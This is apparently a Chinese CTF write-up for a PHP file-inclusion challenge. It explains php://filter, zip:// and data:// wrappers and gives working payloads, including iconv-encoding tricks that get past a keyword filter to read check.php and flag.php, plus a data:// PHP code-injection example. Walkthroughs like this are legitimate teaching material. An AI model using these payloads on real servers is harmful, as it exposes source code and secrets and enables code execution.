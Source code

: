 # 题目 file_include

[![p90PvnJ.md.png](https://s1.ax1x.com/2023/05/08/p90PvnJ.md.png)](https://imgse.com/i/p90PvnJ)

+ 打开网页，是PHP代码审计，有关文件包含函数的运用，代码如下：

  ```php
  <?php
  highlight_file(__FILE__);
      include("./check.php");
      if(isset($_GET['filename'])){
          $filename  = $_GET['filename'];
          include($filename);
      }
  ?>
  ```

## 代码分析

1. `include(file)`：将`file`下的PHP文件插入到当前PHP文件中（在服务器执行`file`之前），后续的代码可以直接使用它的变量，函数，类等等；
   + `require(file)`跟`include(file)`功能相同，只是当文件不存在时，`require`会报错并停止运行，`include`会发出警告继续执行代码；

## 解题过程

+ 本题提供文件包含问题的一个思路：利用php://filter伪协议查看源文件；

### php伪协议总结

####  php://filter伪协议

+ php://filter是php中独有的一种协议，它是一种过滤器，可以作为一个中间流来过滤其他的数据流。通常使用该协议来读取或者写入部分数据，且在读取和写入之前对数据进行一些过滤，例如base64编码处理，rot13处理等；

+ filter的一般语法：

  ```
  php://filter/过滤器/resource=待过滤的数据流
  ```

  - 过滤器可以设置多个，按顺序依次对数据流进行过滤；过滤器大致可分为四类：字符串过滤器、转换过滤器、压缩过滤器、加密过滤器；
  - 过滤器中的`read=`可以省略，可能会被屏蔽关键字`read`；

1. 字符串过滤

   举例语法：

   ```
   php://filter/read=string.rot13/resource=data://text/plain,abcdefg       #rot13编码
   php://filter/read=string.toupper/resource=data://text/plain,abcdefg     #大写转化，小写转化使用tolower
   php://filter/read=string.strip_tags/resource=data://text/plain,<a>s</a> #去除PHP，HTML标签
   ```

2. 转化过滤器

   举例语法：

   ```
   php://filter/read=convert.base64-encode/resource=data://text/plain,m1sn0w           #base64编码
   php://filter/read=convert.quoted-printable-encode/resource=data://text/plain,m1sn0w #将不能用ASCII表示的字符转化为两位十六进制数(8bit)
   php://filter/zlib.deflate/resource=flag.php                                         #将数据流进行压缩
   php://filter/zlib.deflate|zlib.inflate/resource=flag.php                            #将数据流进行解压缩
   #压缩解压缩过滤器也可以用：bzip2.compress和bzip2.decompress
   php://filter/read=convert.iconv.utf-8.utf-16/resource=data://text/plain,m1sn0w      #将输入的字符串编码转化为输出的字符串编码
   #格式为：convert.iconv.<input-encoding>.<output-encoding> 或者 convert.iconv.<input-encoding>/<output-encoding>
   ```

   convert.iconv支持的编码格式如下：

   ```
   UCS-4*
   UCS-4BE
   UCS-4LE*
   UCS-2
   UCS-2BE
   UCS-2LE
   UTF-32*
   UTF-32BE*
   UTF-32LE*
   UTF-16*
   UTF-16BE*
   UTF-16LE*
   UTF-7
   UTF7-IMAP
   UTF-8*
   ASCII*
   EUC-JP*
   SJIS*
   eucJP-win*
   SJIS-win*
   ```

#### zip://, bzip2://, zlib://协议

+ zip://， bzip2://，zlib://均属于压缩流，可以访问压缩文件中的子文件，更重要的是不需要指定后缀名，可修改为任意后缀：jpg，png，gif，xxx等等；

+ 举例语法：

  ```
  zip://\var\WWW\phpinfo.jpg#phpinfo.txt #压缩phpinfo.txt文件为phpinfo.zip,重命名压缩包为phpinfo.jpg，再上传
  compress.bzip2://\var\WWW\phpinfo.bz2  #压缩phpinfo.txt文件为phpinfo.bz2并上传
  compress.zlib://\var\WWW\phpinfo.gz    #压缩phpinfo.txt文件为phpinfo.gz并上传
  #它们均支持将压缩包修改为任意的后缀名
  ```

#### data://协议

+ data://可以封装数据格式，用来传递数据；

+ 举例语法：

  ```
  data://text/plain,<?php phpinfo();?> #不做处理，直接传递字符串
  data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+ #将字符串进行base64解码再传递字符串
  ```

### 构造payload

回到本题中，我们可以先尝试使用php://filter读取check.php的文件

payload如下：

```
php://fil1ter/convert.base64-encode/resource=index.php
```

[![p90E8Gq.md.png](https://s1.ax1x.com/2023/05/08/p90E8Gq.md.png)](https://imgse.com/i/p90E8Gq)

 结果被屏蔽了，可能是屏蔽了base64关键字；

对比payload：

```
?filename=php://fil1ter/con1vert.b1ase64-e1ncode/resource=check.php
?filename=php://fil1ter/con1vert.base64-e1ncode/resource=check.php
```

发现base64确实是被过滤了，我们再尝试使用其他的过滤器；

```
?filename=php://filter/string.rot13/resource=check.php
?filename=php://filter/convert.iconv.utf-8.utf-16/resource=check .php
```

发现rot13被屏蔽，iconv有多种编码格式，需要进一步尝试是否被屏蔽，使用BurpSuite Intruder测试；

#### [BurpSuite爆破的四种方式讲解](https://blog.csdn.net/weixin_43487849/article/details/116084562)

Attack方式选择Cluster bomb，如下：

[![p90KZkD.md.png](https://s1.ax1x.com/2023/05/08/p90KZkD.md.png)](https://imgse.com/i/p90KZkD)

通过观察Response长度即可大致判断是否测试成功，有很多种编码都能正确返回check.php的内容

[![p90Kvut.md.png](https://s1.ax1x.com/2023/05/08/p90Kvut.md.png)](https://imgse.com/i/p90Kvut)

一个可能的payload如下：

```
?filename=php://filter/convert.iconv.SJIS-win*.UCS-4*/resource=check.php
```

观察check.php，确实是过滤了`/base be encode print zlib quoted write rot13 string`这些关键词；

并没有给出flag的信息，我们尝试访问`flag.php`也许能得到`flag`，payload如下：

```
?filename=php://filter/convert.iconv.SJIS-win*.UCS-4*/resource=flag.php
```

[![p90MuUU.md.png](https://s1.ax1x.com/2023/05/08/p90MuUU.md.png)](https://imgse.com/i/p90MuUU)

成功得到flag。
